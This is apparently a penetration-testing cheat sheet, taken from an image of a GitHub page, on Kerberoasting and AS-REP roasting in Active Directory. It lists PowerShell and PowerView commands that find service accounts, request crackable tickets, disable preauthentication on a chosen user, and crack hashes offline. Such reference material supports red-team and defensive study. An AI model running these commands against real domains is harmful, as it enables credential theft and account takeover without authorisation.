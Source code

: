 # Kerberoasting
- Offline cracking of service accounts
- Kerberos Session ticket has server portion which is encrypted with the password hash of the service account. Makes it possible to request a ticket and do offline password attacks.
- Service accounts are often ignored (passwords are rarely changed)
- Password hashes of service accounts could be used to create silver tickets

## Active Directory PowerShell Module
|Command|Description|
|---|---|
|Get-ADUser -Filter {ServicePrincipalName -ne "\$null"} -Properties ServicePrincipalName|Find user accounts used as Service Accounts|

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "\$SPN"
```


## PowerView
|Command|Description|
|---|---|
|Get-NetUser -SPN|Find user accounts used as Service Accounts|
|Request-SPNTicket|Request TGS for cracking with john/hashcat|

## Cracking Service Account Password
```
python3 path/to/tgsrepcrack.py \$wordlist \$ticketfile
```

# AS-REP Roasting (Kerberos)
- If a user's UAC settings have "Do not require Kerberos preauthentication" it is possible to grab user's crackable AS-REP and attack it offline.
- With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well

## Active Directory PowerShell Module
|Command|Description|
|---|---|
|Get-ADUser -Filter {DoesNotRequirePreAuth -eq \$True} -Properties DoesNotRequirePreAuth|Get Accounts with Kerberos Preauth disabled|

## PowerView
|Command|Description|
|---|---|
|Get-DomainUser -PreauthNotRequired -Verbose|Get accounts with Kerberos Preauth disabled|
|Invoke-ACLScanner -ResolveGUIDs \| \${\$\_.IdentityReferenceName -match "RDPUsers"}||
|Set-DomainObject -Identity \$Username -XOR @{useraccountcontrol=4194304} -Verbose|Disable Preauth requirements for specific user|
|Get-ASREPHash -User \$Username -Verbose|Request encrypted AS-REP for offline password attack|
|Invoke-ASREPRoast -Verbose|Enumerate all users with Kerberos preauth disabled and request a ticket (hash)|
